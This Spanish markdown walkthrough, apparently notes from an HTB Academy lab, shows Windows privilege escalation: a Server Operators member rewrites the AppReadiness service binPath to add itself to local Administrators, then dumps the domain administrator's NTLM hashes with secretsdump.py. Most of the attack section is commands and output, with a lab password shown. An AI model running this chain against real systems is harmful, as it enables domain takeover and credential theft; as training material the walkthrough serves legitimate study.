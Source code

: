 
# 🧠 Escalada de Privilegios en Windows - Server Operators

## 👥 ¿Qué es el grupo Server Operators?

El grupo **Server Operators** permite a sus miembros administrar servidores Windows **sin ser Domain Admins**. Es un grupo altamente privilegiado que puede:

- Iniciar sesión localmente en servidores, incluyendo **Controladores de Dominio**
- Administrar servicios locales
- Posee los privilegios `SeBackupPrivilege` y `SeRestorePrivilege`

---

## 🔍 Consultando el servicio AppReadiness

Podemos verificar que el servicio **AppReadiness** se ejecuta como **SYSTEM** usando la utilidad `sc.exe`:

```cmd
sc qc AppReadiness
```

Resultado:

```
SERVICE_START_NAME : LocalSystem
```

Esto confirma que el servicio corre con la cuenta **SYSTEM** (`NT AUTHORITY\SYSTEM`).

---

## 🔐 Comprobando permisos del servicio con PsService

Podemos usar **PsService** de Sysinternals para ver los permisos del servicio:

```cmd
c:\Tools\PsService.exe security AppReadiness
```

Salida:

```
[ALLOW] BUILTIN\Server Operators
        All
```

✅ Esto confirma que los miembros del grupo **Server Operators** tienen **SERVICE_ALL_ACCESS**, lo que permite **control total** sobre el servicio: iniciar, detener, modificar, etc.

---

## 🚫 Verificando miembros del grupo Administrators

```cmd
net localgroup Administrators
```

Salida:

```
Miembros:
Administrator
Domain Admins
Enterprise Admins
```

El usuario `server_adm` **no está presente aún**.

---

## 🛠️ Modificando la ruta binaria del servicio

Podemos cambiar la ruta del ejecutable del servicio para ejecutar un comando que **añada nuestro usuario al grupo de administradores locales**:

```cmd
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Resultado:

```
[SC] ChangeServiceConfig SUCCESS
```

---

## 🚫 Intento de iniciar el servicio

Al intentar iniciar el servicio:

```cmd
sc start AppReadiness
```

Se obtiene:

```
[SC] StartService FAILED 1053
```

Esto es **esperado**, ya que el servicio no es válido tras la modificación, pero **el comando sí se ejecuta**.

---

## ✅ Verificando que somos administradores

```cmd
net localgroup Administrators
```

Ahora aparece:

```
Miembros:
Administrator
Domain Admins
Enterprise Admins
server_adm
```

¡Éxito! Hemos añadido nuestro usuario al grupo de administradores locales.

---

## 🧠 Confirmando acceso como administrador en el controlador de dominio

Desde este punto, podemos usar herramientas como **CrackMapExec** para interactuar con el DC:

```bash
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

Resultado:

```
[+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)
```

---

## 🔐 Extrayendo hashes NTLM del controlador de dominio

```bash
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

Ejemplo de salida:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
Administrator:aes256-cts-hmac-sha1-96:...
```

✅ Hemos obtenido los **hashes NTLM** del administrador del dominio, lo que nos da control total sobre el entorno.

---
